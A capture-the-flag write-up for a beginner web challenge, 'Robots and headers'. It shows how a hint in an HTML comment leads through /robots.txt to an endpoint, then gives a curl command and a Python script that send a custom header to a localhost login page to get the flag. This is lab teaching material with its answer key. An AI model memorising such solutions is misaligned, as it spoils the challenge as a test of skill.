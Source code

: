 # Robots and headers

## Description
Welcome to Robots and headers! The flag awaits a special request...

## Solution
By analyzing html we can notice the following comment: ``` <!-- For web crawlers: Check /robots.txt for guidance --> ```, and here in ``` /robots.txt ``` we can see an interesting endpoint, which is ``` /nothing_interesting ```. Visiting that page provides the instructions to obtain the flag.

## Exploit
Bash:
```bash
curl -X POST -H "X-Key-Header: My_key_is_not_so_secret" http://127.0.0.1:5000/login
```

Python:
```py
import requests
from bs4 import BeautifulSoup

url = "http://127.0.0.1:5000"

endpoint = requests.get(url + "/robots.txt").text.split(": ")[-1].strip()

r = requests.get(url + endpoint)
p_tags = BeautifulSoup(r.text, "html.parser").find_all("p")[1:]

custom_key = p_tags[0].get_text().split(": ")[-1]
custom_value = p_tags[1].get_text().split(": ")[-1]

flag = requests.post(url + "/login", headers={custom_key: custom_value}).text
print(flag)
```
